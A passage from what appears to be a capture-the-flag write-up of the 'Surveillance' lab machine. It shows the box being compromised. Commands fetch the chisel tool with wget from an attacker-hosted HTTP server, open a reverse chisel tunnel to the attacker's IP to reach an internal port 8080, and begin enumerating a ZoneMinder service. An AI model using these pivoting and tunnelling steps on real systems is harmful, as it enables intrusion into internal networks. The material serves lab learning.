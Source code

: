 In the attacker's machine:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

In the victim's machine:

```bash
matthew@surveillance:~$ cd /tmp
matthew@surveillance:/tmp$ wget http://<YOUR IP>/chisel
```

## Port forwarding

In the attacker's machine:

```bash
❯ ./chisel server -p 1234 --reverse
2024/04/17 19:32:17 server: Reverse tunnelling enabled
2024/04/17 19:32:17 server: Fingerprint Jxtsiq9PliwT2OzxzND0lOoMiHcCBqwuSN8Q6i3q5cg=
2024/04/17 19:32:17 server: Listening on http://0.0.0.0:1234
2024/04/17 19:32:46 server: session#6: tun: proxy#R:8080=>8080: Listening
```

In the victim's machine:

```bash
matthew@surveillance:/tmp$ ./chisel client 10.10.14.114:1234 R:8080:127.0.0.1:8080
2024/04/17 17:32:45 client: Connecting to ws://10.10.14.114:1234
2024/04/17 17:32:46 client: Connected (Latency 94.27049ms)
```

## Enumeration

Enumerating the 8080 web service, we can see that it runs something called "zoneminder":

![Zoneminder](/assets/images/Surveillance/zoneminder_cms.png)

Searching in google, we can see that Zoneminder is a video surveillance software system:
